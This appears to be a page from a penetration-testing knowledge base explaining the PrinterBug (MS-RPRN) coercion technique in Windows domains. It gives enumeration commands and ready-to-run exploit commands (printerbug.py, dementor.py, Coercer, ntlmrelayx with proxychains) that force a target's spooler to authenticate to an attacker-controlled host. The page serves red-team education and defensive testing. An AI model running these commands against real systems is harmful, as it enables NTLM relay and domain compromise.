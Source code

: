 # MS-RPRN abuse (PrinterBug)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments ([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)).

**The coerced authentications are made over SMB**. But MS-RPRN abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain (i.e. compromised account) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) (Python).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) or [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#). There are many alternatives available publicly on the Internet.

{% tabs %}
{% tab title="Enumerate" %}
#### rpcdump

We can check if the spooler service is available on a target using [rpcdump.py](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py) from impacket.

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```

#### NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to check if the spooler service is running.

```bash
netexec smb <TARGET> -u <USER> -p <PASSWORD> -M spooler
netexec smb <TARGET> -u <USER> -p <PASSWORD> --local-auth -M spooler
```

#### SpoolerScanner

Check if the spooler service is available (Windows) using  [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell)

```powershell
.\SpoolerScan.ps1
```
{% endtab %}

{% tab title="Exploit" %}
#### PrinterBug

Using [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) (python) we can trigger the spooler to authenticate against our cotrolled server.

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```

#### Dementor

Using [dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) (python) we can trigger the spooler to authenticate against our cotrolled server.

```bash
python dementor.py -d $DOMAIN -u $USERNAME -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

#### Coercer

Yet another alternative is to use the [Coercer](https://github.com/p0dalirius/Coercer/tree/master) tool (python) as follow.

```bash
# Coerce
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-protocol-name MS-RPRN -l $ATTACKER_IP -t $TARGET_IP

# Coerce a specific method
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-method-name RpcRemoteFindFirstPrinterChangeNotificationEx -l $ATTACKER_IP -t $TARGET_IP
```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains printerbug.py -no-pass 'DOMAIN'/'USER'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}
